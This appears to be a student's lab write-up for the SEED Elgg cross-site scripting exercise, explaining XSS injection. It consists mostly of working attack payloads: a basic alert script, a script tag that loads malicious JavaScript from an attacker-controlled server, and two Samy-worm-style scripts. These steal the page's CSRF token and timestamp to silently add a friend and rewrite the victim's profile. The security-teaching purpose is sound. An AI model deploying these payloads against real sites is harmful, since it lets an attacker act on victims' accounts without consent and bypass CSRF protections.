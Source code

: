 # TD2 - XSS attacks

## code breakdown

- `<script>alert(’XSS’);</script>` : this script displays a message to the user that is the argument of alert
- if we don't have enough space for our javascript code, You host a malicious JavaScript file (e.g., myscripts.js) on a server you control.
 
    In the profile or field you want to exploit, you insert a reference to that hosted file using the script tag with the src attribute.  
    ```js
    <script type="text/javascript"src="http://www.example.com/myscript.js"></script>
    ```
- ex 3.5) 2) the sanitization mechanism used is converting special characters like > and <


```js
<script type="text/javascript">
window.onload = function () {
      var Ajax = null;
      var ts = "&elgg_ts=" + elgg.security.token.elgg_ts;
      var token = "&elgg_token=" + elgg.security.token.elgg_token;
      var sendUrl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

      Ajax = new XMLHttpRequest();

      // Error handling
      Ajax.onerror = function() {
          console.error("Request failed.");
      };

      Ajax.onload = function() {
          if (Ajax.status >= 200 && Ajax.status < 400) {
              console.log("Request was successful");
          } else {
              console.error("Server responded with an error", Ajax.status, Ajax.statusText);
          }
      };

      Ajax.open("GET", sendUrl, true);
      Ajax.send();
}
</script>
```

```js
<p><script type="text/javascript">
window.onload = function(){
    console.log("Script initialized.");

    // JavaScript code to access user name, user guid, Time Stamp elgg_ts
    // and Security Token elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&elgg_ts=" + elgg.security.token.elgg_ts;
    var token = "&elgg_token=" + elgg.security.token.elgg_token;
    var sendurl= "http://www.seed-server.com/action/profile/edit";


    // Construct the content of your URL.
  var name = "&name=" + userName;
  var desc = "&description=haks" + "&accesslevel[description]=2";
  var content = token + ts + name + desc + guid;
  var samyGuid = 59

    if(elgg.session.user.guid != samyGuid) {
        console.log("Preparing to send the request.");
        // Create and send Ajax request to modify profile
        var Ajax = new XMLHttpRequest();

        // Listen for the response
        Ajax.onreadystatechange = function() {
            if (Ajax.readyState === 4) { // Check if request is complete
                console.log("Server Response:", Ajax.responseText);
                console.log("Status Code:", Ajax.status);
            }
        };

        // Log errors
        Ajax.onerror = function() {
            console.error("Request failed.");
        };

        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    } else {
        console.log("Script not executed for Samy.");
    }
}
</script></p>
```